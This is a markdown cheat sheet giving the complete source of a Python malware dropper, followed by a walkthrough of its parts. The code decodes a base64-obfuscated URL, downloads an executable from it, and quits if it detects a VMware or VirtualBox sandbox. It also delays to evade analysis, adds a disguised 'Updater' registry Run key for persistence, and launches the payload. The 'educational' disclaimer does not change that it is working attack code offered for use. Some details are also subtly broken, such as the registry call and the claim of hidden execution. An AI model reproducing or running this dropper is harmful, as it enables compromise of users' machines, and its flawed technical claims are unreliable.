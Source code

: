 > ⚠️ **Disclaimer**: This code is for educational purposes only. Use only in a secure, isolated lab environment with proper authorization. Unauthorized use or deployment of malware is illegal and unethical.

# Advanced Dropper Malware Cheat Sheet (For Educational Purposes)

This cheat sheet covers an advanced **Python dropper** that stealthily downloads, executes a secondary payload, and automatically installs necessary Python modules. This enhanced version also includes features for persistence, anti-analysis checks, and stealthy execution. **For lab and research environments only; unauthorized use is illegal.**

---

## Dropper Overview

A **dropper** is a type of malware that “drops” or downloads additional malicious components onto a target system. The example here:
- **Downloads**: A secondary malicious payload from a remote server.
- **Checks for Dependencies**: Ensures that required modules are installed and installs them if missing.
- **Stealth Features**: Uses anti-sandboxing, obfuscation, and persistence techniques.

---

## Advanced Python Dropper Code

This dropper code uses Python, with automatic handling of dependencies to ensure it runs on the target machine even if modules are missing. It also has features to evade detection, maintain persistence, and execute the payload silently.

### Full Dropper Code

```python
import os
import sys
import subprocess
import tempfile
import base64
import time
import ctypes

# Function to check and install dependencies
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])

# Automatically ensure required modules are installed
install_module("requests")
import requests

# Base64 encoded URL of the payload for obfuscation
PAYLOAD_URL = base64.b64decode("aHR0cDovL2V4YW1wbGUuY29tL21hbGljaW91c19wYXlsb2FkLmV4ZQ==").decode('utf-8')

# Function to check if running in a virtual environment
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check

# Anti-sandboxing delay
time.sleep(10)

# Define the main dropper function
def dropper():
    if is_virtual_environment():
        print("[!] Virtual environment detected. Exiting.")
        sys.exit(1)
    
    try:
        # Step 1: Create a temporary directory
        temp_dir = tempfile.gettempdir()
        payload_path = os.path.join(temp_dir, "malicious_payload.exe")
        
        # Step 2: Download the payload
        print("[*] Downloading payload...")
        response = requests.get(PAYLOAD_URL, stream=True)
        
        # Write payload to disk
        if response.status_code == 200:
            with open(payload_path, "wb") as payload_file:
                for chunk in response.iter_content(1024):
                    payload_file.write(chunk)
            print(f"[*] Payload downloaded to {payload_path}")
        else:
            print("[!] Failed to download payload")
            return
        
        # Step 3: Persistence - Add to startup registry
        try:
            key = r"Software\Microsoft\Windows\CurrentVersion\Run"
            value_name = "Updater"
            ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, payload_path)
            print("[*] Persistence achieved via registry key.")
        except Exception as e:
            print(f"[!] Failed to add persistence: {e}")
        
        # Step 4: Execute the payload in a hidden window
        print("[*] Executing payload...")
        subprocess.Popen(payload_path, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        print("[*] Payload executed.")
        
    except Exception as e:
        print(f"[!] Error occurred: {e}")

# Run the dropper function
if __name__ == "__main__":
    dropper()
```

---

## Explanation of Key Components

### 1. **Module Installation Function**

The `install_module()` function ensures that the required Python modules are installed on the target machine. If a module is missing, it automatically installs it using `pip`.

```python
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
```

### 2. **Obfuscated Payload URL**

The payload URL is Base64 encoded to evade static analysis tools. The script decodes it at runtime:

```python
PAYLOAD_URL = base64.b64decode("aHR0cDovL2V4YW1wbGUuY29tL21hbGljaW91c19wYXlsb2FkLmV4ZQ==").decode('utf-8')
```

### 3. **Virtual Environment Detection**

The `is_virtual_environment()` function checks for VMware or VirtualBox indicators in `systeminfo`, helping to avoid detection in sandboxed environments.

```python
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check
```

### 4. **Anti-Sandboxing Delay**

The dropper pauses for 10 seconds using `time.sleep(10)` to evade sandbox detection.

```python
time.sleep(10)
```

### 5. **Payload Download**

The `requests` library downloads the payload in binary chunks, reducing memory usage.

```python
response = requests.get(PAYLOAD_URL, stream=True)
with open(payload_path, "wb") as payload_file:
    for chunk in response.iter_content(1024):
        payload_file.write(chunk)
```

### 6. **Persistence Mechanism**

The dropper adds a registry entry to the **Run** key so the payload executes every time the user logs in:

```python
key = r"Software\Microsoft\Windows\CurrentVersion\Run"
value_name = "Updater"
ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, payload_path)
```

### 7. **Silent Payload Execution**

Using `subprocess.Popen()` with `shell=True` ensures the payload is executed in a hidden process:

```python
subprocess.Popen(payload_path, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

---

## Security and Legal Disclaimer

This dropper script is for educational purposes only and must only be used in a controlled lab environment. Unauthorized use, distribution, or execution of malware is illegal and unethical.

--- 

**End of Cheat Sheet**
```
